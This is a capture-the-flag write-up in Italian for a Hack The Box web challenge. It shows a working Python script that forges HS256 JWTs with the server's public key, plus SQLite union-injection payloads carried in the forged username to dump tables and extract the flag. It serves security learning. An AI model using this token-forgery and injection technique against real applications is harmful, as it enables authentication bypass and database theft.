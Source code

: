 ## Information Gathering

Vedo una web app molto basica con un form di login (con la possibilità di registrare utenti), quindi post-login una home page molto basilare in cui viene plottato il nome con cui mi sono registrato. 

## Testing Entry Points

Inizio a testare i vari entry points che ho rintracciato, partendo con le vulnerabilità della tipologia SQLinjection, XSS ed XXE. Vedo che tuttavia nulla funziona. 

A questo punto scarico il codice sorgente della web app disponibile da hackthebox. Lo carico su WebStorm, effettuo tutte le connessioni al DB, Node, ecc... Quindi eseguo in localhost ma non noto niente di particolare... A questo punto leggo il codice sorgente alla ricerca di vulnerabilità e vedo che:

 * la verifica del JWT avviene tramite RS256 ma anche HS256
 * la ricerca dell'username a DB tramite JWT avviene in maniera incontrollata
 
 Da questo comprendo che:
 
  * posso usare la chiave pubblica (nascosta dentro al payload del JWT) per firmare JWT validi con metodo HS256
  * posso inserire sintassi per eseguire sqlinjection dentro al campo username
  
## Exploitation

Con i rilevamenti descritti nel punto precedente sono in grado di scrivere il seguente script in Python:

```
import jwt
import requests

public = open('key.pem', 'r').read()

while 1:

  payload = raw_input("Payload: ")

  jwt_res = jwt.encode({"username":payload}, key=public, algorithm='HS256')

  header = {"Cookie": "session="+jwt_res}

  r = requests.get('http://docker.hackthebox.eu:32435/', headers=header)

  print r.text

```

 * il file "key.pem" contiene la chiave pubblica in forma corretta estratta dal JWT
 * nel cookie inserisco il JWT craftato con la query
 
A questo punto estraggo il numero delle tabelle presenti, il loro nome, le colonne presenti nella tabella che mi interessa ed infine i valori presenti nella tabella di mio interesse (ricordando di effettuare l'escape del carattere ', altrimenti interpretato da python) - Fonte [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md):

```
* ABC\' order by 6 --
* ABC\' union SELECT 1,sql,3 FROM sqlite_master WHERE type!=\'meta\' AND sql NOT NULL AND name NOT LIKE \'sqlite_%\' --
* ABC\' union SELECT 1,sql,3 FROM sqlite_master WHERE type!=\'meta\' AND sql NOT NULL AND name NOT LIKE \'sqlite_%\' AND name=\'<TABLE>\' --
* ABC\' union SELECT 1,<COLUMN>,3 FROM <TABLE> --
```

Ed ecco il flag! 
